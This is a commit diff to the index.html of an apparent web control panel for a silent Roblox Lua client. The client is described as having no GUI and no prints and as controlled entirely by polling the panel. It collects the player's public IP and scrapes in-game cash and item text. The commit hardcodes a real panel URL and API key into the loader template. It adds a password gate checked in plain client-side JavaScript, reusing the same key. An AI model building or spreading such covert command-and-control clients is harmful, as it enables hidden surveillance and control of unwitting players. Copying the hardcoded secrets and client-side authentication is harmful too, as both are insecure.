

Before and after one commit to soloxhubop/never-give-up-ahahah, a website: page public/index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Implement login screen with validation
Add login screen with password input and error handling.

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -544,10 +544,92 @@
         .modal-btn:hover { background: var(--bg-card-hover); }
         .modal-btn.primary { background: #6366f1; border-color: #818cf8; color: #fff; }
         .modal-btn.primary:hover { background: #818cf8; }
+
+        /* LOGIN SCREEN */
+        #loginScreen {
+            position: fixed;
+            inset: 0;
+            background: var(--bg);
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            z-index: 9999;
+            flex-direction: column;
+            gap: 24px;
+        }
+        #loginScreen.hidden { display: none !important; }
+        .login-box {
+            background: var(--bg-card);
+            border: 1px solid var(--border);
+            border-radius: 16px;
+            padding: 40px;
+            width: 100%;
+            max-width: 400px;
+            text-align: center;
+        }
+        .login-box h1 {
+            font-size: 24px;
+            font-weight: 700;
+            margin-bottom: 8px;
+            letter-spacing: -0.5px;
+        }
+        .login-box p {
+            font-size: 13px;
+            color: var(--text-secondary);
+            margin-bottom: 24px;
+        }
+        .login-box input {
+            width: 100%;
+            padding: 12px 16px;
+            background: var(--bg);
+            border: 1px solid var(--border);
+            border-radius: 10px;
+            color: var(--text-primary);
+            font-size: 14px;
+            outline: none;
+            margin-bottom: 16px;
+            transition: border 0.2s;
+        }
+        .login-box input:focus { border-color: var(--accent-blue); }
+        .login-box input::placeholder { color: var(--text-muted); }
+        .login-box button {
+            width: 100%;
+            padding: 12px;
+            border-radius: 10px;
+            border: none;
+            background: var(--accent-blue);
+            color: #fff;
+            font-size: 14px;
+            font-weight: 700;
+            cursor: pointer;
+            transition: filter 0.2s;
+        }
+        .login-box button:hover { filter: brightness(1.1); }
+        .login-error {
+            color: var(--accent-red);
+            font-size: 12px;
+            margin-top: 12px;
+            display: none;
+        }
+        .login-error.show { display: block; }
+
     </style>
+<base target="_blank">
 <base target="_blank">
 </head>
 <body>
+
+<!-- LOGIN SCREEN -->
+<div id="loginScreen">
+    <div class="login-box">
+        <h1>🔒 Control Panel</h1>
+        <p>Enter the panel password to continue</p>
+        <input type="password" id="loginPassword" placeholder="Password" onkeydown="if(event.key==='Enter')doLogin()">
+        <button onclick="doLogin()">Unlock</button>
+        <div class="login-error" id="loginError">Wrong password. Try again.</div>
+    </div>
+</div>
+
 
 <div class="toast" id="toast"></div>
 
@@ -658,12 +740,12 @@
 </div>
 
 <script>
-const LOADER_TEMPLATE = `const LOADER_TEMPLATE = `--[[
+const LOADER_TEMPLATE = `--[[
   Panel Client v3 — fully silent, no GUI, no prints
   Controlled exclusively via web panel polling.
 ]]
-local BASE = "{{PANEL_URL}}"
-local KEY  = "{{API_KEY}}"
+local BASE = "https://roblox-panel-4h3i.onrender.com"
+local KEY  = "aggredireontopstupidnga"
 
 local Players            = game:GetService("Players")
 local HttpService        = game:GetService("HttpService")
@@ -749,7 +831,7 @@ local function publicIp()
     end)
     if res and res.Body then
         local ip = tostring(res.Body):gsub("%s+", "")
-        if string.match(ip, "^[%d%.:%a]+$") and #ip >= 3 and #ip <= 60 then
+        if string.match(ip, "^[%d%.:%a]+\$") and #ip >= 3 and #ip <= 60 then
             cachedIp = ip
         end
     end
@@ -777,11 +859,11 @@ local function collectBrainrots()
                 if (obj:IsA("TextLabel") or obj:IsA("TextButton")) and obj.Text and obj.Text ~= "" then
                     local text = obj.Text
                     if string.find(text, "Cookie") or string.find(text, "Milki")
-                       or string.find(text, "%$")
-                       or (string.match(text, "^%d+$") and tonumber(text) > 100) then
+                       or string.find(text, "%\$")
+                       or (string.match(text, "^%d+\$") and tonumber(text) > 100) then
                         cash = text
                     end
-                    if not string.match(text, "^%d+$")
+                    if not string.match(text, "^%d+\$")
                        and not string.find(text, "Template")
                        and not string.find(text, "Cookie")
                        and not string.find(text, "Milki")
@@ -1418,5 +1500,38 @@ document.getElementById('loaderModal').addEventListener('click', (e) => {
 });
 </script>
 
+<script>
+(function() {
+    const PANEL_PASSWORD = 'aggredireontopstupidnga';
+    const DEFAULT_PANEL_URL = 'https://roblox-panel-4h3i.onrender.com';
+    const DEFAULT_API_KEY = 'aggredireontopstupidnga';
+
+    window.doLogin = function() {
+        var input = document.getElementById('loginPassword').value;
+        var errorEl = document.getElementById('loginError');
+        var screen = document.getElementById('loginScreen');
+
+        if (input === PANEL_PASSWORD) {
+            screen.style.display = 'none';
+            errorEl.style.display = 'none';
+
+            var urlInput = document.getElementById('panelUrl');
+            var keyInput = document.getElementById('apiKey');
+            if (urlInput) urlInput.value = DEFAULT_PANEL_URL;
+            if (keyInput) keyInput.value = DEFAULT_API_KEY;
+
+            if (typeof updateLoader === 'function') {
+                try { updateLoader(); } catch(e) {}
+            }
+        } else {
+            errorEl.classList.add('show');
+            errorEl.style.display = 'block';
+            document.getElementById('loginPassword').value = '';
+            document.getElementById('loginPassword').focus();
+        }
+    };
+})();
+</script>
+
 </body>
 </html>
```
